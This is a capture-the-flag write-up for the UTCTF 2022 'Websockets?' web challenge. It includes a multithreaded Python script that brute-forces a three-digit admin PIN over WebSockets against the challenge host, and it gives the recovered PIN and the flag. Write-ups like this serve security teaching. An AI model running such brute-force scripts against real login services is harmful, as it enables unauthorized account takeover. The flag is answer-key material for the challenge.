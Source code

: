 ```yaml
---
date: "2022-03-15T00:00:00Z"
points: 335
redirect_from: /writeups/2022/UTCTF/Websockets.html
solves: 173
tags: [websocket,authentication,bruteforcing]
title: '[Writeup] UTCTF 2022 | Websockets?'
---
```


![](/assets/CTFs/UTCTF2022/Websockets/challenge_info.png){: .modal}

**Websockets?** was a challenge in the web category for UTCTF 2022, in the end it has {{ page.solves }} Solves and it was worth {{ page.points }} Points. It was relatively easy.

We find this website without much information or input, checking its source we find a new page `/internal/login` and a username `admin`.
Going to this we now see a login, it requires a username and password. Lets open its source and see what we can find. There is a comment it says the following

```html
<!-- what is this garbage, you ask? Well, most of our pins are now 16 digits, but we still have some old 3-digit pins left because tom is a moron and can't remember jack -->
```

So the password will be 3 diget's long? So it will have a range from `000` to `999`.

There also is a JavaScript file, opening it shows us something interesting. The login uses websockets to verify the password, we can easily bruteforce it.
Lets write a small script using python.

```python
#!/usr/bin/env python3

import asyncio
import websockets
from concurrent.futures import ThreadPoolExecutor

URL = 'ws://web1.utctf.live:8651/internal/ws'
PINLENGTH = 3
USERNAME = 'admin'

async def tryLoginWith(pin):
    async with websockets.connect(URL) as websocket:
        begin = await websocket.recv()
        if begin == 'begin':
            await websocket.send(f'begin')
            await websocket.send(f'user {USERNAME}')
            await websocket.send(f'pass {pin}')

            data = await websocket.recv()
            if 'session' in data:
                print(f'[<<<] Data: {data} | Pincode: {pin}')
            else:
                print(f'[-] Wrong Pincode: {pin}')

def send(args):
    asyncio.run(tryLoginWith(str(args).zfill(PINLENGTH)))

args = [ x for x in range(1000) ]
with ThreadPoolExecutor(max_workers=100) as pool:
    pool.map(send,args)

```
^ A download for this script can be found [here](/assets/CTFs/UTCTF2022/Websockets/solve.py)


This code uses multithreading to get the correct pincode as quickly as possible. It also makes sure that the pincode is padded with zero's in front. Running this results in the following output.

![](/assets/CTFs/UTCTF2022/Websockets/pincode_done.png){: .modal}

The pincode it found is `907`.
Lets login with this acquired pincode, and we got the flag! **utflag{w3bsock3ts}**
